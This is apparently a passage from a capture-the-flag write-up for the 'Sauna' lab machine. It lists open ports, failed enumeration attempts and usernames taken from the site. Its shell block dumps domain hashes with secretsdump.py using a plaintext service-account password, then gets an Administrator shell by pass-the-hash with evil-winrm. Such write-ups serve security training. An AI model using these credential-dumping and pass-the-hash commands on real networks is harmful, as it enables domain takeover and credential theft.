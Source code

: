 ```shell
#svc_loanmgr has dcsync rights
#this can be abused

#in attacker, use impacket tool
secretsdump.py egotistical.local/svc_loanmgr:Moneymakestheworldgoround\!@10.10.10.175
#dumps hashes

#use evil-winrm pass-the-hash
evil-winrm -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e -i 10.10.10.175
#we get shell as Administrator
#get root flag
```

* Open ports & services:

  * 53 - domain - Simple DNS Plus
  * 80 - http - Microsoft IIS httpd 10.0
  * 88 - kerberos-sec - Kerberos
  * 135 - msrpc - RPC
  * 139 - netbios-ssn
  * 389 - ldap - AD LDAP
  * 445 - microsoft-ds
  * 464 - kpasswd5
  * 593 - ncacn_http - RPC over HTTP 1.0
  * 3268 - ldap - AD LDAP
  * 5985 - http - Microsoft HTTPAPI httpd 2.0
  * 9389 - mc-nmf - .NET Message Framing

* For the target Windows machine, ```nmap``` shows domain name as "EGOTISTICAL-BANK.LOCAL0"

* Enumerating SMB shares using ```smbmap``` does not give us any results.

* We can enumerate LDAP using ```ldapsearch``` but this also fails to give any results; this only gives us the domain "egotistical-bank.local"

* Alternatively, we can use ```crackmapexec``` to get the host and domain name for the machine.

* We can use ```gobuster``` to enumerate the web directories while we explore the page.

* The webpage is for "Egotistical Bank"; it contains a few pages.

* /about.html page contains a few names; this could be usernames:

  * Fergus Smith
  * Shaun Coins
  * Hugo Bear
  * Steven Kerb
  * Bowie Taylor
  * Sophie Driver

* Scanning the web directories does not give us anything of use.

* We can attempt enumeration using ```rpcclient```, but this gives us access denied error.

* We can try enumerating DNS by trying a 'zone transfer' using ```dig``` with domains 'sauna.htb' and 'egotistical-bank.local' - but this does not give anything.
